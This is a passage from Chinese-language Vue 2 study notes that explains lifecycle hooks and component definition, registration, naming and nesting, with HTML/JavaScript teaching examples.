          //多段单词命名，使用-连接，因此不能省略引号,这是vue推荐写法,下面是完整写法，可省略:function
          "fbind-error": function (element, binding) {
            element.value = binding.value; //修改元素值，操作DOM元素
            element.focus();
            console.log(this); //Window
          },
          //b.对象式，参数跟函数式一样
          fbind: {
            //指令与元素成功绑定时，调用bind函数(一上来)
            bind(element, binding) {
              console.log("bind");
              console.log(this); //Window
              element.value = binding.value; //修改元素值，操作DOM元素
            },
            //指令所在元素被插入页面时调用inserted函数
            inserted(element, binding) {
              console.log("inserted");
              console.log(this); //Window
              element.focus();
            },
            //指令所在的模板被重新解析时
            update(element, binding) {
              console.log("update");
              console.log(this); //Window
              element.value = binding.value;
            }
          }
        }
      });

      new Vue({
        el: "#root2",
        data: {
          x: 1
        }
      });
    </script>
  </body>
</html>
```

## 十二、生命周期(重点)

小案例：实现一段文字，**一进入页面**就让文字透明度每隔一段时间来回变化，使用定时器实现。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>生命周期</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <!-- 动态绑定样式 -->
      <!-- <h2 :style="{opacity: opacity}">欢迎改变透明度</h2> -->
      <!--对象中属性名与值名称一样可简写  -->
      <h2 :style="{opacity}">欢迎改变透明度</h2>
      <!-- 实现方式3 使用插值语法调用，但注意一定要使用v-once,否则一修改数据就调用change,形成回调地狱 -->
      <!-- 该方式的问题是破坏了html结构，多了一个div -->
      <div v-once>{{change()}}</div>
    </div>

    <script>
      Vue.config.productionTip = false;

      const vm = new Vue({
        el: "#root",
        data: {
          opacity: 1
        },
        methods: {
          change() {
            console.log("开启了一个定时器");
            setInterval(() => {
              this.opacity -= 0.01;
              if (this.opacity <= 0) this.opacity = 1;
            }, 16);
          }
        }
      });

      //实现方式1：外部定时器可以实现，但不符合Vue编写代码的原则，这段代码跟Vue感觉是完全割裂的内容
      setInterval(() => {
        vm.opacity -= 0.01;
        if (vm.opacity <= 0) vm.opacity = 1;
      }, 16);

      //实现方式2，虽然有效，但依然犯了实现方式1的问题,不推荐
      window.onload = function () {
        //页面加载完成调用
        vm.change();
      };
    </script>
  </body>
</html>
```

上边的三种实现方式都有一定的问题，而使用**生命周期函数mounted**就可完美实现该案例。

mount有**挂载**、安装的意思，`mounted`函数就是Vue完成模板的解析并把**初始的真实DOM元素放入页面(完成挂载)**后调用的。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>生命周期函数</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <!-- 动态绑定样式 -->
      <!--对象中属性名与值名称一样可简写  -->
      <h2 :style="{opacity}">欢迎改变透明度</h2>
      <!-- 修改了非初始的元素，a=true 不会再调用mounted函数 -->
      <h2 v-if="a">非初始的渲染的元素</h2>
    </div>

    <script>
      Vue.config.productionTip = false;

      const vm = new Vue({
        el: "#root",
        data: {
          a: false,
          opacity: 1
        },
        //Vue完成模板的解析并把初始的真实DOM元素放入页面(就是挂载)后调用mounted
        mounted() {
          console.log("开启定时器");
          setInterval(() => {
            this.opacity -= 0.01;
            if (this.opacity <= 0) this.opacity = 1;
          }, 16);
        }
      });
    </script>
  </body>
</html>
```

**生命周期**又名**生命周期回调函数**、生命周期函数或生命周期钩子。它是指**Vue在关键时刻帮我们调用的一些特殊名称的函数**。

生命周期函数的名称是固定的，不可更改，但函数内容可根据需求自己编写。

生命周期函数中的`this`都是指向**vm实例或组件实例对象**的。

vm实例的生命周期简要流程(8个函数分为4对)：

1. 将要创建，调用`beforeCreate`函数；
2. 创建完毕，调用`created`函数；
3. 将要挂载，调用`beforeMount`函数；
4. **挂载完毕**，调用`mounted`函数(重要),初始化的内容在该函数中做，例如开启定时器、发送ajax请求、订阅消息、绑定自定义事件等；
5. 将要更新，调用`beforeUpdate`函数；
6. 更新完毕，调用`updated`函数；
7. **将要销毁**，调用`beforeDestroy`函数（重要）,很多收尾的内容在该函数中做，例如关闭定时器、取消订阅消息、解绑自定义事件等；
8. 销毁完毕，调用`destroyed`函数；

> 销毁Vue实例后效果：
>
> ① 销毁后借助Vue开发者工具上看不到任何信息。
>
> ② 销毁后自定义事件会失效，原生DOM依然生效(新版Vue没有)。
>
> ③ 一般不会在`beforeDestroy`中操作数据，因为即便操作也不会再触发更新流程了，也就是页面不会变化。

Vue中的生命周期流程图如下,其中**红色框中的就是生命周期函数**。



```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>收集表单数据</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <!-- el是将整个div作为template模板渲染，div也包括在内 x会被渲染的 -->
    <div id="root" :x="n">
      <!-- <h2 v-text="name"></h2>
      <h2>当前n值是：{{n}}</h2>
      <button @click="add">点我n+1</button>
      <button @click="bye">点击销毁vm</button> -->
    </div>

    <script>
      Vue.config.productionTip = false;

      const vm = new Vue({
        el: "#root",
        //template模板配置，但必须只有一个根元素包裹,不能使用<template>代替<div>作为根元素，否则会报错,配置了该内容会覆盖原本el中内容
        template: `
            <div>
                <template> <h2>你好</h2></template>
                <h2 v-text='name'></h2>
                <h2>当前n值是：{{n}}</h2>
                <button @click="add">点我n+1</button>
                <button @click="bye">点击销毁vm</button>
           </div>`,
        data: {
          name: "张三",
          n: 1
        },
        methods: {
          add() {
            console.log("add被调用");
            this.n++;
          },
          bye() {
            console.log("bye被调用 vm被销毁");
            this.$destroy(); //销毁vm
          }
        },
        watch: {
          n() {
            console.log("n变化了");
          }
        },
        //生命周期函数
        //挂载流程
        //1.初始化生命周期与事件，但data中数据还未处理时调用beforeCreate，无法访问_data与methods中内容
        beforeCreate() {
          console.log("01-beforeCreate"); //01-beforeCreate
          console.log(this); //vm实例，上边没有data内容与methods中的方法
          console.log(this._data); //undefined
          //  console.log(this.add()); //没有add方法，访问会报错
          //   debugger; //测试断点
        },
        //2.初始化完毕，数据监测与数据代理完成，可以访问_data与methods中内容
        created() {
          console.log("02-created"); //02-created
          console.log(this); //vm实例，上边有data内容与methods中的方法
          console.log(this._data); //{__ob__: Observer}
          this.add(); //n+1
          //   debugger; //测试断点
        },
        //3.挂载页面之前，Vue解析模板并生成虚拟DOM在内存中，还未生成真实DOM放入页面中时调用beforeMount。
        // 此阶段页面呈现未经过Vue编译的DOM结构，此时任何DOM的操作，最终都不会奏效
        beforeMount() {
          console.log("03-beforeMount"); //03-beforeMount
          console.log(this);
          console.log(document.querySelectorAll("h2"));
          //   如果使用template,则会查询不到元素，el则可以查询到元素
          //   document.querySelectorAll("h2")[0].innerText = "哈哈哈"; //会有一刻修改页面内容，但最终会被Vue真实DOM内容替换
          //   debugger; //测试断点
        },
        //4.挂载完毕后,Vue将虚拟DOM转化为真实DOM插入页面后调用mounted，vm.$el中保存真实dom元素，并用它替换el的内容。
        //页面呈现经过Vue编译的DOM结构，这时对DOM的操作均有效(但尽量避免操作)。
        //到此处时，Vue的初始化流程结束。一般会在此刻开启定时器、发生网络请求、订阅消息、绑定自定义事件等初始化操作。
        mounted() {
          console.log("04-mounted"); //04-mounted
          console.log(this);
          console.log(this.$el, this.$el instanceof HTMLElement); //<div id='root' x='2'>...</div> true $el就是真实DOM内容
          //   document.querySelectorAll("h2")[0].innerText = "123"; //DOM操作会生效，但不建议使用
          //   debugger; //测试断点
        },
        //更新流程 只要数据被修改旧走更新流程
        //5.只要修改数据，Vue就会立刻调用beforeUpdate，此时数据是新的，但页面依然是旧数据。Vue还未使用新数据生成虚拟DOM。页面和数据不同步。
        beforeUpdate() {
          console.log("05-beforeUpdate"); //05-beforeUpdate
          console.log(this);
          console.log(this.n); //3
          //   debugger; //测试断点
        },
        //6.修改数据完成，Vue利用新数据生成新DOM，比较旧DOM完成页面更新后，调用updated，此时数据是新的，但页面也是新数据。页面和数据保持同步。
        updated() {
          console.log("06-updated"); //06-updated
          console.log(this);
          console.log(this.n); //3
          //   debugger; //测试断点
        },
        //销毁流程 当vm.$destroy()被调用时就走销毁流程，该方法调用就会完全销毁一个实例，会清理它与其他组件实例的连接，解绑它的全部指令以及事件监听器
        //7.当vm.$destroy()被调用时，Vue就会立刻调用beforeDestroy,此时vm中所有的data、methods、指令等都处于可以状态，但马上要被销毁。
        //一般在此阶段做关闭定时器、取消订阅消息、解绑自定义事件等收尾工作
        beforeDestroy() {
          console.log("07-beforeDestroy"); //07-beforeDestroy
          console.log(this);
          console.log(this.n); //3
          this.add(); //值修改了，但页面不会改变，对数据的所有操作都不会触发更新
          this.n = 99; //值修改了，但页面不会改变，对数据的所有操作都不会触发更新
          //   debugger; //测试断点
        },
        //8.vm已经销毁，并已经移除所有监视、子组件和事件监听器的内容后调用destroyed。
        destroyed() {
          console.log("08-destroyed"); //08-destroyed
          console.log(this);
          console.log(this.n); //99
          //   debugger; //测试断点
        }
      });
      //如果既没有el配置也没有template，还没有使用vm.$mount("#root")，生命周期将只执行beforeCreate与created，等什么时候调用$mount，才会执行后面的流程
      // vm.$mount("#root")
    </script>
  </body>
</html>
```

小案例扩展，之前文字透明度变化，点击按钮停止变化,两种方式停止，一个直接关闭定时器，一个是销毁vm时调用定时。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>生命周期函数</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <!-- 动态绑定样式 -->
      <!--对象中属性名与值名称一样可简写  -->
      <h2 :style="{opacity}">欢迎改变透明度</h2>
      <button @click="stop1">点击停止变化1</button>
      <button @click="stop2">点击停止变化2</button>
    </div>

    <script>
      Vue.config.productionTip = false;

      const vm = new Vue({
        el: "#root",
        data: {
          a: false,
          opacity: 1
        },
        methods: {
          stop1() {
            //关闭定时器,但Vue依然管理页面数据，响应式还在
            clearInterval(this.timer);
          },
          stop2() {
            //大多数情况不要自己调用该方法，自己调用相当于自杀。大多数destory都是别人调用的,相当于他杀。
            this.$destroy(); //它不会关闭定时器，下边直接调用定时器无法解决其他人调用destroy时销毁定时器。
            // clearInterval(this.timer);
          }
        },
        //Vue完成模板的解析并把初始的真实DOM元素放入页面(就是挂载)后调用mounted
        mounted() {
          console.log("开启定时器");
          //将定时器挂载的vm实例上，后面就可在其他地方调用
          this.timer = setInterval(() => {
            console.log("定时器在执行");
            this.opacity -= 0.01;
            if (this.opacity <= 0) this.opacity = 1;
          }, 16);
        },
        beforeDestroy() {
          //这里关闭定时器，不管任何时候调用destroy都会执行
          clearInterval(this.timer);
        }
      });
    </script>
  </body>
</html>
```

## 十三、组件(重点)

### 13.1 组件含义的理解

**传统方式**编写html应用存在**文件依赖关系混乱**，**不好维护**，**代码复用率低(特别是html中结构)**的问题。

**模块**指的是js模块，一个js文件就是一个模块，js模块化就是为了复用js,简化js编写提高js运行效率。

**模块化**是指将一个大js拆分为多个小js的过程。一个应用中js以模块来编写就可以称为**模块化的应用**。



**组件方式**编写html应用就不会出现上边的问题，且代码复用率极高。



组件可以**嵌套**，**vm实例是最根部的组件**，一个组件可以看作一个小型的特殊vm实例。Vue中组件结构关系如下图：



**组件**其就是实现应用中**局部功能代码和资源的集合**。其作用就是简化项目编码，复用编码，提高运行效率。

**组件化**是指将一个大功能拆分为多个小功能的过程。一个应用中功能都是以多组件的方式来编写就可以称为**组件化的应用**。

组件主要分为两种：**非单文件组件**与**单文件组件**。

Vue中使用组件的三大步骤：

1. **定义组件**，使用`Vue.extend(options)`创建，其中**options**和`new Vue(options)`时传入的差不多，但依然有区别：

   + 组件中**不能写el配置**，因为最终所有的组件都要经过vm的管理，由vm中的el决定服务员哪个容器；
   + 组件中**data必须写成函数**，因为要避免组件被复用时，数据存在引用关系的问题。

   使用`template`可以配置组件结构。

2. **注册组件**,分为**全局注册**和**局部注册**。

   + 局部注册就写在`new Vue`时的`components`属性上；
   + 全局注册使用`Vue.component('组件名'，组件)`;

3. **使用组件**(编写组件标签),例如 `<school></school>`

### 13.2 非单文件组件

非单文件组件是指一个文件中包含有n个组件。

**函数返回对象和直接赋值对象的区别**：

```js
//对比data是对象和函数返回的区别
let data1 = {
  a: 100,
  b: "aaa"
};
const x1 = data1;
const x2 = data1;
x2.a = 200;
console.log(x1.a); //200 x1,x2共用
let data2 = function () {
  return {
    a: 100,
    b: "aaa"
  };
};
const x3 = data2();
const x4 = data2();
x4.a = 300;
console.log(x3.a); //100 x3,x4不是共用一个对象
console.log(x4.a); //300
```

案例：组件的简单使用

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>非单文件组件</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <!-- 非组件的写法：两个模块模拟 -->
    <div id="root">
      <h2>学校名称：{{schoolName}}</h2>
      <h2>学校地址：{{address}}</h2>
      <hr />
      <h2>学生名称：{{studentName}}</h2>
      <h2>学生年龄：{{age}}</h2>
      <!-- 全局组件无效，因为vue实例创建在组件注册之前 -->
      <hello></hello>
    </div>

    <hr />
    <hr />
    <!-- 组件的写法：两个模块模拟 -->
    <div id="root2">
      <!-- vm实例的内容 -->
      <h2>{{msg}}</h2>
      <hr />
      <!-- 3.编写组件标签 -->
      <school></school>
      <hr />
      <student></student>
      <!-- 组件的复用 -->
      <student></student>

      <!-- 使用全局组件 -->
      <hello></hello>
    </div>
    <script>
      Vue.config.productionTip = false;

      const vm = new Vue({
        el: "#root",
        data: {
          schoolName: "北大",
          address: "北京",
          studentName: "张三",
          age: 19
        }
      });

      //1. 创建组件 extend 扩展的意思,extend函数的参数也是一个配置对象，其中大部分的配置都跟new Vue的实例配置一样，当然也有不同。
      const school = Vue.extend({
        //不能配置el,必须在new实例中才能使用el,否则会报错。所有组件最终都要被一个vm管理，它由vm来决定服务于哪个容器。
        // el: "#root",
        //配置组件模板,里面是组件的html结构
        template: `
        <div>
            <h2>学校名称：{{schoolName}}</h2>
            <h2>学校地址：{{address}}</h2>
            <button @click='showName'>点击提示学习名</button>
        </div>
        `,
        //组件中的data不能配置为对象，必须配置为函数返回对象，这样可以防止多个组件data是同一个，导致数据被同步修改
        data() {
          return {
            schoolName: "北大",
            address: "北京"
          };
        },
        // methods写法跟vm实例中一样
        methods: {
          showName() {
            alert(this.schoolName);
          }
        }
      });

      const student = Vue.extend({
        template: `
        <div>
            <h2>学生名称：{{studentName}}</h2>
            <h2>学生年龄：{{age}}</h2>
        </div>
        `,
        data() {
          return {
            studentName: "张三",
            age: 19
          };
        }
      });

      const hello = Vue.extend({
        template: `
        <div>
            <h2>你好，全局组件{{name}}</h2>
        </div>`,
        data() {
          return {
            name: "Vue"
          };
        }
      });
      //2. 注册组件
      //全局注册组件，参数1是组件名，参数2是组件实例 注意全局注册的组件要生效，new Vue实例必须写在这之后，否则还是会报错找不到组件
      Vue.component("hello", hello);
      new Vue({
        el: "#root2",
        //局部注册
        components: {
          //完整写法
          school: school,
          student
        },
        data: {
          msg: "你好Vue"
        }
      });
    </script>
  </body>
</html>
```

运行效果



**Vue官方推荐组件名写法**：

1. **单个单词的组件名**；例如school，Vue推荐使用小写`school`或者首字母大写的`School`的两种写法,首字母大写可以与开发者工具中的组件名相呼应；
2. **多个单词的组件名**；例如myschool，Vue推荐使用使用`-`分隔单词`my-school`或者大驼峰写法`MyShool`,其中大驼峰写法要在脚手架环境中使用才有效，单纯引入vue.js会报错,它会把`MyShool`识别成`myschool`。

> 注意：
>
> **组件名尽可能回避HTML中已有的元素名称**会出错，不管大小写都有问题。例如：h2、div等

组件中可使用`name`配置属性指定组件在开发工具中呈现的名称。一般第三方组件库或者大型项目就会使用该属性配置。

**组件标签**也有两种写法，分别为`<my-school></my-school>`与`<my-school />`,第二种写法如果不使用脚手架环境，会出现后续组件不能渲染的问题，也就是多个标签只有一个有效。

**组件定义**有一种简写方式，就是`const s=Vue.extend(options)`简化为`const s=options`。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>组件三个注意点</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <!-- 3. 使用组件的两种写法 -->
      <my-school></my-school>
      <student></student>
      <!-- 该写法如果部使用脚手架，会导致后续组件不能渲染，下面四个只有第一个有效 -->
      <my-school />
      <my-school />
      <my-school />
      <student></student>
    </div>

    <script>
      Vue.config.productionTip = false;

      //定义组件
      const a = Vue.extend({
        //2. name配置属性，指定组件在开发工具中的名称
        name: "aa",
        template: `
          <div>
              <h2>学校名称：{{name}}</h2>
              <h2>学校地址：{{address}}</h2>
          </div>
          `,
        data() {
          return {
            name: "北大",
            address: "北京"
          };
        }
      });

    //4.定义组件简写，vue会先找到vm实例中的components配置，发现b就会把它当成组件，Vue.extend会被Vue自动添加上并调用
      const b = {
        template: `
          <div>
              <h2>学生名称：{{name}}</h2>
              <h2>学生年龄：{{age}}</h2>
          </div>
          `,
        data() {
          return {
            name: "张三",
            age: 18
          };
        }
      };
      const vm = new Vue({
        el: "#root",
        //1. 注册组件,组件命名方式
        components: {
          //组件名首字母小写
          //  school:a,
          //组件名首字母大写
          //   School: a,
          //多单词组件名 -
          "my-school": a,
          //大驼峰写法,没有脚手架会报错
          //   MySchool: a,
          //组件名尽可能回避HTML中已有的元素名称,不推荐，会出错，不管大小写
          //   h2: a,
          //   H2: a
          student: b
        }
      });
    </script>
  </body>
</html>
```

### 13.3 组件的嵌套

所谓组件嵌套就是一个组件中还有其他组件。父组件下有许多子组件就是嵌套。

最简单的组件嵌套代码

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>组件嵌套</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <school></school>
    </div>

    <script>
      Vue.config.productionTip = false;

      //定义student组件，它是school组件的子组件，要在school中使用必须写在school之前
      const student = {
        template: `
          <div>
              <h2>学生名称：{{name}}</h2>
              <h2>学生年龄：{{age}}</h2>
          </div>
          `,
        data() {
          return {
            name: "张三",
            age: 18
          };
        }
      };

      //定义school组件
      const school = Vue.extend({
        template: `
          <div>
              <h2>学校名称：{{name}}</h2>
              <h2>学校地址：{{address}}</h2>
              <!-- 使用子组件，在谁身上注册的组件就在谁的模板中使用  -->
              <student></student>
          </div>
          `,
        data() {
          return {
            name: "北大",
            address: "北京"
          };
        },
        components: {
          // 子组件注册到父组件中
          student
        }
      });

      const vm = new Vue({
        el: "#root",
        //注册组件
        components: {
          school
        }
      });
    </script>
  </body>
</html>
```



案例：**标准化开发结构**，`app组件`引入，它的主要功能就是用于管理应用中的所有组件。让vm只需要管理app组件，然后app再管理其他组件。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>组件嵌套</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <!-- 容器可不写内容 -->
    <div id="root"></div>

    <script>
      Vue.config.productionTip = false;

      //定义student组件，它是school组件的子组件，要在school中使用必须写在school之前
      const student = {
        template: `
          <div>
              <h2>学生名称：{{name}}</h2>
              <h2>学生年龄：{{age}}</h2>
          </div>
          `,
        data() {
          return {
            name: "张三",
            age: 18
          };
        }
      };

      //定义school组件
      const school = Vue.extend({
        template: `
          <div>
              <h2>学校名称：{{name}}</h2>
              <h2>学校地址：{{address}}</h2>
              <!-- 使用子组件，在谁身上注册的组件就在谁的模板中使用  -->
              <student></student>
          </div>
          `,
        data() {
          return {
            name: "北大",
            address: "北京"
          };
        },
        components: {
          // 子组件注册到父组件中
          student
        }
      });

      //定义hello组件
      const hello = Vue.extend({
        template: `<h1>{{msg}}</h1>`,
        data() {
          return {
            msg: "欢迎学习Vue2"
          };
        }
      });

      //定义app组件
      const app = Vue.extend({
        template: `
        <div>
           <hello></hello>
           <school></school>
        </div>`,
        //app管理所有组件
        components: {
          hello,
          school
        }
      });
      const vm = new Vue({
        el: "#root",
        //使用模板可以让容器更干净
        template: `<app></app>`,
        //注册组件，vm只管理app
        components: {
          app
        }
      });
    </script>
  </body>
</html>
```

